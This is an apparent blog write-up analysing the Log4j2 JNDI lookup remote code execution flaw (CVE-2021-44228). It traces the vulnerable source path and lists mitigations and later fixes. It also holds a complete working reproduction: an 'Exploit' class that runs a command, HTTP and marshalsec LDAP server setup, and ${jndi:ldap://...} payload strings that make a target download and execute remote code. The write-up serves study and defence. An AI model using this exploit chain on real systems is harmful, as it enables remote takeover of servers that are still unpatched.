






<iframe src="detail-header.html" title="Github of Anigkus" style="height:0px,widht:0px;display:none" id="kusifreamheader"></iframe>

<h1 style="color:#606c71;text-align:center;" id="h1" >Talk about the Lookup RCE vulnerability of Log4j2</h1><br/>

<center>

</center>

> <br/>&nbsp;&nbsp;&nbsp;&nbsp; Most of the open source technology componets will use this package, so the scope of influeence is very large. This vulnerability is not a simple RCE, it is really arbitrary remote code execution. The principle of the vulnerability is to use a lookup function provided by log4j, You can downloaded any class file remotely, and the execute it on the client, Thinking about it, it is very dangerous. In fact, this vulnerability was disconvered as early as November. I shudder. Below I will use my own understanding to briefly analyze the princple of this vulnerability and the repair situation in the relevant version. For the basic situation of the vulnerability, please see [CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228). <br/>
> <br/>

# Vulnerability to reproduce

## Triggering conditions


First let me declare the following:

> 1.This version is limited to the `2.0~2.14.1` version, in fact, the `1.x` version will also trigger, but the trigger machanism is bit diferent.<br/> 
> 2.This vulnerability is limited to `error, fatal` level logs,  ohter levels of log output will not trigger, and will trigger even when placeholders are used.<br/> 
> 3.Remotly going to LDAP to download a file can be downloaded  as long as it matches a certain prefix. For example, if the file name is `Exploit`, it only needs to match the `Ex` prefix has too trigger. <br/>

## Verification code

First prepare the following problematic code, compile it into a class and upload it to root directory of the http server (client). 

```
public class Exploit {

    static {
        try {
            String [] cmd = {"/System/Applications/Calculator.app/Contents/MacOS/Calculator"};
            Runtime.getRuntime().exec(cmd).waitFor(); //open mac calc
        }catch (Exception e){
            e.printStackTrace();
        }
    }

}
```

Then start the HTTP server, like above (client). 

```
# For simplicity, I start a web server directly with python
➜  ~ mkdir -p /tmp/test/
➜  ~ cd  /tmp/test/

# Choose one of the following to start the http server, my machine is a python3 environment
➜  test python -m SimpleHTTPServer 8888 #python2
➜  test python -m http.server  8888 #python3 
```

<center>

</center>

Then start the LDAP server (client).

```
# This directory doesn't matter, it can not be in the same directory as the problematic code
➜  ~ cd  /tmp/test/

# Compile the source code yourself
➜  test git clone https://github.com/mbechler/marshalsec

# Use the compiled
➜  test git clone git@github.com:bkfish/Apache-Log4j-Learning.git
➜  test cd Apache-Log4j-Learning/tools
➜  test java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Exploit"
```

<center>

</center>

The service code, 1389 is the default port of LDAP. Then start it with idea, just output the parameters of the clint, for example, the following string is:
`${jndi:ldap://10.201.0.170:1389/#Exploit}`

```
package com.github.anigkus.test;
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class Log4j {

    private static Logger LOG = LogManager.getLogger(Log4j.class);

    public static void main(String[] args) {
        // LOG.error("${jndi:ldap://127.0.0.1:1389/#Ex}");
        LOG.error("${jndi:ldap://127.0.0.1:1389/#Exploit}");

    }
}
```

<center>

</center>

The approximate project structure is as follows, and then see the implementation effect. 

<center>

</center>

Because `Exploit` always uses `waitFor()`, the program will not stop automatically if you don't close the calculator manually (I just use the calculator to illustrate that it is better to simulate, in fact, any code can be used). 

<center>

</center>

First, after parsing the `lookup` in Log4j, it will request the LDAP server.

<center>

</center>

Then LDAP will forward the request to the http server to download the `Exploit.class` file. 

<center>

</center>

Finally, the downloaded `Exploit.class` is executed in Log4j, then loadad into the JVM, and finally run, which trigger the code logic in the program (I am a calculator here) . 

## Process flow

<center>

</center>

Either way (with and without package name) 

```
# OKay1(With)
# Problematic Code
# Copy the full path of the com/github/test/Exploit.class file to the directory to be downloaded (must be the root directory of the http web server)

# ready to work
python -m SimpleHTTPServer 8888 #python3 # Must be in the same root directory as Exploit.class
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#com.github.test.Exploit"

# Output Format
LOG.error("${jndi:ldap://127.0.0.1:1389/#com}");
LOG.error("${jndi:ldap://127.0.0.1:1389/#com.github.test.Exploit}");
LOG.error("${jndi:ldap://127.0.0.1:1389/#co}");
LOG.error("xxx:{}","${jndi:ldap://127.0.0.1:1389/#co}");
```

```
# OKay2(Without)
# Problematic Code
# Copy the Exploit.class file to the directory to be downloaded ( must be the same root directory of the http web server ) 

# Ready to work
python -m SimpleHTTPServer 8888 #python3 #Must be in the same root dirctory Exploit.class
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Exploit"

# Output Format
LOG.error("${jndi:ldap://10.201.0.170:1389/#Exploit}”);

```


Vulnerability Analysis

&nbsp;&nbsp;&nbsp;&nbsp;Now let's analysis general calling logic in the source code class the runtime stack, i will analysis the problem step by step from the `log.error(message)` method (`fatal` is similar). I will only talk about the main classes and code snippets. The `logo-core` i use is version `2.14.1`. Other versions will be slightly differenet, but the code logic of the core vulnerability execution is the same. I will skip some nethods. Mainly analyze some important steps. 
`org.apache.logging.log4j.core.pattern.MessagePatternConverter#format`


<center>

</center>


The `noLookups` in the current class is a `boolean` type, which corresponds to the value of `org.apache.logging.log4j.core.util.Constants#FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS` in the constructor of the current class. Since it is not set by default, That is `False`, so enter the following `org.apache.logging.log4j.core.lookup.StrSubstitutor#substitute(org.apache.logging.log4j.core.LogEvent, java.lang.StringBuilder, int, int, java.util.List<java.lang.String>)` method, omitting part of the content. 


```
/...
// resolve the variable
String varValue = resolveVariable(event, varName, buf, startPos, endPos);
if (varValue == null) {
    varValue = varDefaultValue;
}
//...
```

Then enter the `resolveVariable` method, load all the  implementation classes of `StrLookup`, and then according to the `:` split of th string,determine which JNDI implementation class to use, and now use `JndiLookup`. 

```
protected String resolveVariable(final LogEvent event, final String variableName, final StringBuilder buf,
                                 final int startPos, final int endPos) {
    final StrLookup resolver = getVariableResolver();
    if (resolver == null) {
        return null;
    }
    return resolver.lookup(event, variableName);
}
```

<center>

</center>

Enter the `org.apache.logging.log4j.core.lookup.JndiLookup#lookup` method. 

```
@Override
public String lookup(final LogEvent event, final String key) {
    if (key == null) {
        return null;
    }
    final String jndiName = convertJndiName(key);
    try (final JndiManager jndiManager = JndiManager.getDefaultManager()) {
        return Objects.toString(jndiManager.lookup(jndiName), null);
    } catch (final NamingException e) {
        LOGGER.warn(LOOKUP, "Error looking up JNDI resource [{}].", jndiName, e);
        return null;
    }
}
```


Enter the `org.apache.logging.log4j.core.net.JndiManager#lookup` method. The `context` in this method is the `InitialContext` class that comes with the JDK, and then call the `InitialContext#lookup` method, and then the next step by step to request the address  in the parameter, and download the class file, the instantiate and load it into the jvm memory, so as to achieve the logic of RCE. At this time, the logic to be executed that has been executed in the jvm of the client has been completed from <font color="red">Parse string->Request LDAP->Download Class->Load Classs</font> and a series of actions.


```
@SuppressWarnings("unchecked")
public <T> T lookup(final String name) throws NamingException {
    return (T) this.context.lookup(name);
}
```

<center>

</center>

# Bugfix 

&nbsp;&nbsp;&nbsp;&nbsp; Now let's take a look at how the community fixes this problem. First of all, the ideas provided by the community at the beginning are the following two: 

## 1.Add parameter
&nbsp;&nbsp;&nbsp;&nbsp;such as JVM startup parameter `(-Dlog4j2.formatMsgNoLookups=true)`, system environment variable `(LOG4J_FORMAT_MSG_NO_LOOKUPS=true)`, modify configuration `(log4j2.component.properties)`, add parameters If you really don't use the `lookup` function in the business, and you can keep adding this parameter all the time, it can be avoided, but there are still hidden dangers. 

## 2.Delete class
&nbsp;&nbsp;&nbsp;&nbsp;Delete `JndiLookup`, but if you don't know much about `log4j-core`, it is very riskly to delete this class directly. for example, the project is running well, this log4j project is not you own company Developed, what is the problem in it , it can't be hold it at all, delete it with the following command: 

```
zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class
```

###### &nbsp;

In fact, this vulnerability has finally been fixed in version `2.15.0`, and the vulnerability that appears again later is no looger a `Lookup` vulnerability, but is also an RCE vulnerability. 
* 2.16.0([CVE-2021-45046](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-45046))[Fix information disclosure and remote code execution],[reproduce](https://cloud.tencent.com/developer/article/1924041).
* 2.17.0([CVE-2021-45105](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-45105))[DOS attack],[reproduce](https://blog.csdn.net/hilaryfrank/article/details/122046202).


For detail on how to reproduce, you can refer to the reproduced link information of the above two CVEs, and i will not repeat them here. The following are some code screenshots in `2.15.0`. This parameter is dereferenced (it will be useless later). 

<center>

</center>


In the `org.apache.logging.log4j.core.net.JndiManager#lookup` method has been limited to  only the specifie classes (8 basic types) that the local can look up. 

<center>

</center>

<center>

</center>

<center>

</center>

From `2.15.0~2.16.0` , the LDAP address of JNDI can only be the local machine and related classes are also restricted, From `2.17.0`, JNDI can only be the Java Protocl, and the LDAP support is removed. 


<br>

### [back](./)
